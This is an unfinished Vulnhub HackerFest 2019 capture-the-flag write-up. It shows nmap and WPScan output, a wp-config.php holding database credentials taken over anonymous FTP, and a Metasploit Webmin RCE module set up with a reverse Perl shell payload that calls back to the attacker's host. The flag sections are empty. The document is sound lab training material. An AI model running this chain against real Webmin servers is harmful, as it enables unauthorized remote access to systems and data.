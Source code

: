 Vulnhub - HackerFest 2019

# Vulnhub - HackerFest 2019

## Enumeration

- Started by enumerating box by using nmap with default parameters

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-08 23:36 -03                               
Nmap scan report for 192.168.148.32                                                                                  
Host is up (0.16s latency).                                                                                          
Not shown: 996 closed ports                                                                                          
PORT      STATE SERVICE  VERSION                                                                                     
21/tcp    open  ftp      vsftpd 3.0.3                                                                                
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                               
| -rw-rw-r--    1 ftp      ftp           420 Nov 30  2017 index.php                                                  
| -rw-rw-r--    1 ftp      ftp         19935 Sep 05  2019 license.txt                                                
| -rw-rw-r--    1 ftp      ftp          7447 Sep 05  2019 readme.html
| -rw-rw-r--    1 ftp      ftp          6919 Jan 12  2019 wp-activate.php
| drwxrwxr-x    9 ftp      ftp          4096 Sep 05  2019 wp-admin                 
| -rw-rw-r--    1 ftp      ftp           369 Nov 30  2017 wp-blog-header.php
| -rw-rw-r--    1 ftp      ftp          2283 Jan 21  2019 wp-comments-post.php
| -rw-rw-r--    1 ftp      ftp          3255 Sep 27  2019 wp-config.php
| drwxrwxr-x    8 ftp      ftp          4096 Feb 27  2020 wp-content
| -rw-rw-r--    1 ftp      ftp          3847 Jan 09  2019 wp-cron.php
| drwxrwxr-x   20 ftp      ftp         12288 Sep 05  2019 wp-includes                         
| -rw-rw-r--    1 ftp      ftp          2502 Jan 16  2019 wp-links-opml.php
| -rw-rw-r--    1 ftp      ftp          3306 Nov 30  2017 wp-load.php
| -rw-rw-r--    1 ftp      ftp         39551 Jun 10  2019 wp-login.php
| -rw-rw-r--    1 ftp      ftp          8403 Nov 30  2017 wp-mail.php
| -rw-rw-r--    1 ftp      ftp         18962 Mar 28  2019 wp-settings.php
| -rw-rw-r--    1 ftp      ftp         31085 Jan 16  2019 wp-signup.php
| -rw-rw-r--    1 ftp      ftp          4764 Nov 30  2017 wp-trackback.php
|_-rw-rw-r--    1 ftp      ftp          3068 Aug 17  2018 xmlrpc.php
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.49.148
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh      OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 b7:2e:8f:cb:12:e4:e8:cd:93:1e:73:0f:51:ce:48:6c (RSA)
|   256 70:f4:44:eb:a8:55:54:38:2d:6d:75:89:bb:ec:7e:e7 (ECDSA)
|_  256 7c:0e:ab:fe:53:7e:87:22:f8:5a:df:c9:da:7f:90:79 (ED25519)
80/tcp    open  http     Apache httpd 2.4.25 ((Debian))
|_http-generator: WordPress 5.2.3
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Tata intranet &#8211; Just another WordPress site
10000/tcp open  ssl/http MiniServ 1.890 (Webmin httpd)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Login to Webmin
| ssl-cert: Subject: commonName=*/organizationName=Webmin Webserver on Linux-Debian
| Not valid before: 2019-09-09T13:32:42
|_Not valid after:  2024-09-07T13:32:42
|_ssl-date: TLS randomness does not represent time
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

- Interesting findings were made, most specifically on port 21/TCP (FTP), 80/TCP (HTTP) and port 1000/TCP

### Port 21/TCP - VSFTPD 3.0.3

- As shown by nmap, anonymous login to FTP is allowed, where some files, apparently from a previous wordpress installation were found. 

- By inspecting file wp-config.php, credentials of a database were retrieved

```
// ** MySQL settings - You can get this info from your web host ** //                                     
/** The name of the database for WordPress */                                                             
define( 'DB_NAME', 'wordpress' );    

/** MySQL database username */                                                                           
define( 'DB_USER', 'wordpress' );                                                                                                                                                                              
/** MySQL database password */                                                                           
define( 'DB_PASSWORD', 'nvwtlRqkD0E1jBXu' );                                                             

/** MySQL hostname */           
define( 'DB_HOST', 'localhost' );
```

- The other files are pretty wordpress basic. so they were skipped.

### Port 80/TCP - Wordpress

- Once browsed to website, noticed that this is a wordpress install. Ran WPScan and enumerated the following information

```
[...]

[+] WordPress version 5.2.3 identified (Insecure, released on 2019-09-05).
  | Found By: Rss Generator (Passive Detection)
  |  - http://192.168.148.32/?feed=rss2, &lt;generator&gt;https://wordpress.org/?v=5.2.3&lt;/generator&gt;
  |  - http://192.168.148.32/?feed=comments-rss2, &lt;generator&gt;https://wordpress.org/?v=5.2.3&lt;/generator&gt;

[...]

[i] User(s) Identified:

[+] webmaster
  | Found By: Author Posts - Display Name (Passive Detection)
  | Confirmed By:
  |  Rss Generator (Passive Detection)
  |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
  
  [...]O
```

- Once this wordpress version hasn't any interesting vulnerability, skipped to port 1000/TCP to enumerate

### Port 10000/TCP

- Checking the version of the webmin service on port 10000/TCP, noticed that it contains a RCE vulnerability in a Metasploit Module

- By exploiting the vulnerability, the reverse shell was obtained

```
msf5 exploit(linux/http/webmin_packageup_rce) > show options

Module options (exploit/linux/http/webmin_packageup_rce):

    Name       Current Setting  Required  Description
    ----       ---------------  --------  -----------
    PASSWORD                    yes       Webmin Password
    Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
    RHOSTS     192.168.148.32   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
    RPORT      10000            yes       The target port (TCP)
    SSL        false            no        Negotiate SSL/TLS for outgoing connections
    TARGETURI  /                yes       Base path for Webmin application
    USERNAME                    yes       Webmin Username
    VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

    Name   Current Setting  Required  Description
    ----   ---------------  --------  -----------
    LHOST  192.168.49.148   yes       The listen address (an interface may be specified)
    LPORT  4444             yes       The listen port


Exploit target:

    Id  Name
    --  ----
    0   Webmin <= 1.910

```

  

- 

## User Flag







## Root Flag